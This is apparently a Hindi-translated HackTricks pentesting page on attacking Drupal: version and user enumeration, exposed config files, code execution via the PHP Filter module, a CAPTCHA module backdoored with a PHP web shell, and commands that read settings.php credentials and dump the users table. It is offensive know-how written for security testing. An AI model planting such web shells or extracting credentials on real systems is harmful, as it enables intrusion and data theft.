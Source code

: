 # ड्रुपल

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** के [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## खोज

* **मेटा**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **नोड**: ड्रुपल **अपनी सामग्री को नोड का उपयोग करके अनुक्रमित करता है**। एक नोड में कुछ भी हो सकता है, जैसे एक ब्लॉग पोस्ट, मतदान, लेख आदि। पृष्ठ URIs सामान्यत: रूप में होते हैं `/node/<नोड आईडी>`।
```bash
curl drupal-site.com/node/1
```
## गणना

Drupal डिफ़ॉल्ट रूप से **तीन प्रकार के उपयोगकर्ता** का समर्थन करता है:

1. **`प्रशासक`**: इस उपयोगकर्ता के पास Drupal वेबसाइट पर पूरा नियंत्रण होता है।
2. **`प्रमाणीकृत उपयोगकर्ता`**: ये उपयोगकर्ता वेबसाइट में लॉग इन कर सकते हैं और अपनी अनुमतियों के आधार पर लेख जोड़ने और संपादन करने जैसे कार्य कर सकते हैं।
3. **`अनामत`**: सभी वेबसाइट आगंतुक अनामत के रूप में निर्धारित किए जाते हैं। डिफ़ॉल्ट रूप से, इन उपयोगकर्ताओं को केवल पोस्ट पढ़ने की अनुमति होती है।

### संस्करण

* `/CHANGELOG.txt` की जाँच करें
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
नए इंस्टॉल्स के ड्रुपल डिफ़ॉल्ट रूप से `CHANGELOG.txt` और `README.txt` फ़ाइलों तक पहुँच ब्लॉक करते हैं।
{% endhint %}

### उपयोगकर्ता जांच

#### रजिस्टर

_/user/register_ में एक उपयोगकर्ता बनाने की कोशिश करें और अगर नाम पहले से लिया गया है तो सूचित किया जाएगा:

![](<../../.gitbook/assets/image (254).png>)

#### नया पासवर्ड अनुरोध

यदि आप किसी मौजूदा उपयोगकर्ता के लिए एक नया पासवर्ड अनुरोध करते हैं:

![](<../../.gitbook/assets/image (255).png>)

यदि आप किसी मौजूदा उपयोगकर्ता के लिए एक नया पासवर्ड अनुरोध करते हैं:

![](<../../.gitbook/assets/image (256).png>)

### उपयोगकर्ताओं की संख्या प्राप्त करें

_/user/\<number>_ तक पहुँचकर आप मौजूदा उपयोगकर्ताओं की संख्या देख सकते हैं, इस मामले में 2 है क्योंकि _/users/3_ एक खोज त्रुटि देता है:

![](<../../.gitbook/assets/image (257).png>)

![](<../../.gitbook/assets/image (227) (1) (1).png>)

### छिपी पृष्ठ

**`/node/$` जहाँ `$` एक संख्या है** (1 से 500 तक उदाहरण के लिए)।\
आप **छिपी पृष्ठ** (टेस्ट, डेव) खोज सकते हैं जो खोज इंजन द्वारा संदर्भित नहीं हैं।

#### स्थापित मॉड्यूल जानकारी
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### स्वचालित
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHP Filter Module के साथ

{% hint style="warning" %}
पुराने संस्करणों में Drupal **(संस्करण 8 से पहले)** में, एडमिन के रूप में लॉग इन करना संभव था और **`PHP फ़िल्टर` मॉड्यूल को सक्षम करना** था, जो "एम्बेडेड PHP कोड/स्निपेट को मूल्यांकित करने की अनुमति देता है।"
{% endhint %}

आपको **प्लगइन php को स्थापित होना चाहिए** (इसे जांचने के लिए _/modules/php_ तक पहुंचें और यदि यह एक **403** लौटाता है तो, **मौजूद है**, अगर **नहीं मिला**, तो **प्लगइन php स्थापित नहीं है**)

_मॉड्यूल_ पर जाएं -> (**जांचें**) _PHP फ़िल्टर_ -> _कॉन्फ़िगरेशन सहेजें_

![](<../../.gitbook/assets/image (247) (1).png>)

फिर _सामग्री जोड़ें_ पर क्लिक करें -> _बेसिक पेज_ या _लेख -_> शरीर में _php शैलकोड लिखें_ -> _पीएचपी कोड_ का चयन करें _पाठ स्वरूप_ में -> _पूर्वावलोकन का चयन करें_

![](<../../.gitbook/assets/image (253) (1).png>)

अंत में, बस नए नोड तक पहुंचें:
```bash
curl http://drupal-site.local/node/3
```
### स्थापित करें PHP फ़िल्टर मॉड्यूल

**8 संस्करण से**, [**PHP फ़िल्टर**](https://www.drupal.org/project/php/releases/8.x-1.1) **मॉड्यूल डिफ़ॉल्ट रूप से स्थापित नहीं है**। इस कार्यक्षमता का लाभ उठाने के लिए, हमें **मॉड्यूल स्वयं स्थापित करना होगा**।

1. Drupal वेबसाइट से मॉड्यूल का सबसे हाल का संस्करण डाउनलोड करें।
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. डाउनलोड होने के बाद **`प्रशासन`** > **`रिपोर्ट्स`** > **`उपलब्ध अपडेट्स`** पर जाएं।
4. **`ब्राउज़ करें`** पर क्लिक करें, फ़ाइल को चुनें जिसे हमने इसे डाउनलोड किया था, और फिर **`स्थापित करें`** पर क्लिक करें।
5. एक बार जब मॉड्यूल स्थापित हो जाए, हम **`सामग्री`** पर क्लिक कर सकते हैं और **नया बेसिक पेज बना सकते हैं**, जैसा कि हमने Drupal 7 उदाहरण में किया था। फिर से, सुनिश्चित करें कि **`पाठ स्वरूप` ड्रॉपडाउन से `PHP कोड` का चयन** किया गया है।

### बैकडोर्ड मॉड्यूल

एक बैकडोर्ड मॉड्यूल तैयार किया जा सकता है **मौजूदा मॉड्यूल में एक शैल जोड़कर**। मॉड्यूल drupal.org वेबसाइट पर मिल सकते हैं। चलो एक मॉड्यूल चुनते हैं जैसे कि [CAPTCHA](https://www.drupal.org/project/captcha)। नीचे स्क्रॉल करें और tar.gz [आर्काइव](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz) के लिए लिंक कॉपी करें।

* आर्काइव डाउनलोड करें और उसकी सामग्री निकालें।
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* निम्नलिखित सामग्री के साथ एक **PHP वेब शैल** बनाएं:
```php
<?php
system($_GET["cmd"]);
?>
```
* अगले, हमें फ़ोल्डर तक पहुँचने का अधिकार देने के लिए **`.htaccess`** फ़ाइल बनानी होगी। यह जरूरी है क्योंकि Drupal **`/modules`** फ़ोल्डर को सीधा पहुँच देने से इनकार करता है।
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* ऊपर का विन्यास नीचे दिए गए नियमों को लागू करेगा जब हम /modules में एक फ़ाइल का अनुरोध करें। इन दोनों फ़ाइलों को captcha फ़ोल्डर में कॉपी करें और एक आर्काइव बनाएं।
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* यहाँ मान लें कि हमें वेबसाइट पर **प्रशासनिक पहुंच** है, **`प्रबंधित करें`** पर क्लिक करें और साइडबार पर **`विस्तार`** पर क्लिक करें। अगले, **`+ नया मॉड्यूल स्थापित करें`** बटन पर क्लिक करें, और हमें स्थापना पृष्ठ पर ले जाया जाएगा, जैसे कि `http://drupal-site.local/admin/modules/install`। बैकडोर कैप्चा आर्काइव पर जाएं और **`स्थापित करें`** पर क्लिक करें।
* स्थापना सफल होने के बाद, **`/modules/captcha/shell.php`** पर जाएं और आदेश चलाएं।

## पोस्ट घातकता

### settings.php पढ़ें
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### डेटाबेस से उपयोगकर्ता डंप
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## संदर्भ

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
